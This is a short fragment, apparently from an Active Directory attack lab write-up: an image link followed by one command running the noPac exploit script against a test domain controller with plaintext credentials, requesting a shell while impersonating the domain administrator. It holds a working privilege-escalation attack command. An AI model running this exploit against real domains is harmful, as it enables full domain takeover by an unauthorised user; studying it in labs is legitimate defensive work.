 python .\noPac.py tamtest.local/user1:Abc123!! -dc-ip 192.168.253.100 -shell --impersonate administrator -use-ldap
